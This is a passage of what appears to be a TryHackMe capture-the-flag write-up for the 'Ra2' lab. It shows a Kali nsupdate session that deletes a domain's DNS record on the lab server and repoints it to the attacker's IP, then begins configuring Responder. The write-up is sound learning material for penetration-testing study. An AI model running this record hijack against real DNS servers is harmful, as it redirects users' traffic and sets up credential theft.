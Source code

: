 ## DNS Cache Poisoning & Responder

Too achieve this, I can perform DNS cache poisoning.

> DNS cache poisoning is the act of entering false information into a DNS cache, so that DNS queries return an incorrect response and users are directed to the wrong websites.
{: prompt-tips }

So for dynamic DNS update utility I will be using : 

#### nsupdate Tool 🔽

| Commands | Usage |
| -------- | ----- |
| `update add domain-name ttl class type data`    | This command adds a new resource record with the specified ttl, class, and data. |
| `update delete domain-name ttl class type data` | This  command deletes any resource records named domain-name. If type and data are provided, only matching resource records are removed. The Internet class is assumed if class is not supplied.  The  ttl  is ignored, and is only allowed for compatibility. |
| `send` | This command sends the current message. This is equivalent to entering a blank line. |
| `show` | This command displays the current message, containing all of the prerequisites and updates specified since the last send. |

![Image](Pasted%20image%2020240308222201.png)
_nsupdate Tool_

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Ra2]
└─$ nsupdate
> server 10.10.66.76
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 12345 A 10.11.75.200
> send
> quit
```
{: .nolineno}
{: .nolineno}

Lets confirm the DNS record that is been modified through <mark style="background: #FF5582A6;">dig</mark> Tool.

![Image](Pasted%20image%2020240308222332.png)
_dig Tool_

Also when I checked the DNS record of domain I got the first FLAG 🔽

![Image](Pasted%20image%2020240309104514.png)
_dig Tool on domain : windcorp.thm_

### Responder Tool 🔽

Now I see its time to update the <mark style="background: #FF5582A6;">responder</mark> Tool configuration file : 
